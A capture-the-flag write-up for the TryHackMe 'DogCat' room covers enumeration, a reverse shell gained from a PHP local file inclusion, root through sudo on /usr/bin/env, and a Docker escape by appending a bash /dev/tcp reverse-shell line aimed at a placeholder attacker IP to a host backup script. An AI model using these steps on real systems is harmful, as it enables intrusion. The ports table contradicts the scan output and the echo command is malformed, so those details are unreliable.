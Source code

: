 ```yaml
---
title: "DogCat CTF"
image: /room_image.webp
categories: [CTFs ,Tryhackme]
tags: []
media_subpath: /images/dogcat-ctf
author: <author_id>
---
```


This Capture the Flag (CTF) challenge invites participants to explore and exploit a **PHP-based** web application designed to showcase images of cats and dogs, uncovering vulnerabilities beneath its seemingly benign exterior. Your objective is to identify and leverage a **Local File Inclusion** (LFI) flaw, enabling access to sensitive files and deeper system insights. Beyond this, you must demonstrate advanced exploitation skills by escaping the constraints of a **Docker** containerized environment, simulating real-world scenarios where attackers pivot from web-layer vulnerabilities to host-level exploitation. This challenge sharpens skills in web application security, container escape techniques, and lateral movement in constrained environments.

----

## **Enumeration - Nmap Scan**

```console
root@ip-10-10-250-210:~# nmap -n -sC -sV -p- -T4 10.10.234.138

Starting Nmap 7.60 ( https://nmap.org ) at 2024-11-18 15:06 GMT

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (EdDSA)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
MAC Address: 02:09:A9:08:AE:5B (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 15:26
Completed NSE at 15:26, 0.00s elapsed
Initiating NSE at 15:26
Completed NSE at 15:26, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1227.11 seconds
           Raw packets sent: 125333 (5.515MB) | Rcvd: 355432 (58.904MB)
```
### **Open Ports**

| Ports | Services | Version                      |
| ----- | -------- | ---------------------------- |
| 22    | SSH      | OpenSSH 8.2  Ubuntu          |
| 80    | HTTP     | SimpleHTTP/0.6 Python/3.11.2 |

![Desktop View](/webpage-80.webp){: width="1200" height="450" }

Let's see the code source of the pages you can use inspector in the web browser or just used `view-source:<URL>` example view-source:example.com

![Desktop View](/source-code.webp){: width="1200" height="450" }

{% include embed/video.html src='/explained-video.mp4' % loop=true}

## **WebPage Enumeration**

```console
root@ip-10-10-250-210:~# whatweb http://10.10.234.138
http://10.10.234.138 [200 OK] Apache[2.4.38], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[10.10.234.138], PHP[7.4.3], Title[dogcat], X-Powered-By[PHP/7.4.3]
```

> you can use Wappalyzer : extension used to identify the technologies powering websites
{: .prompt-tip}

**Information :**
1. Apache[2.4.38]
2. HTTPServer[Debian Linux]
3. PHP[7.4.3]

> you can do some research about this information to find if there are any vulns can you used
{: .prompt-tip}


## **Reverse Shell From LFI**

![Desktop View](/ls-dogcat-ctf.webp){: width="1200" height="450" }
![Desktop View](/reverse-shell-dogcat-ctf.webp){: width="1200" height="450" }

```console 
www-data@1e8fecd5cd10:/var/www/html$ ls
ls
cat.php
cats
dog.php
dogs
flag.php
index.php
style.css
www-data@1e8fecd5cd10:/var/www/html$ cat flag.php
cat flag.php
<?php
$flag_1 = "THM{**********************}"
?>
www-data@1e8fecd5cd10:/var/www/html$ cd ..
www-data@1e8fecd5cd10:/var/www/html$ ls
flag2_QMW7JvaY2LvK.txt

```

```console
www-data@1e8fecd5cd10:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on 1e8fecd5cd10:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 1e8fecd5cd10:
    (root) NOPASSWD: /usr/bin/env

```

```console
www-data@1e8fecd5cd10:/var/www/html$ sudo /usr/bin/env /bin/bash

pwd
/root
ls      
flag3.txt
cat flag3.txt

```
```console
ls -al
.
..
.dockerenv
...

```

```console
ls opt
backups
cd opt/backups
ls
backup.sh
backup.tar
cat backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```
So now we just need another reverse shell after we need to add `echo "bash -i >& /dev/tcp/<IP_attacker>/<Port> 0>&1" backup.sh"`
 
 ```console 
 root@dogcat:~# ls
 ls
container
flag4.txt
cat flag4.txt
```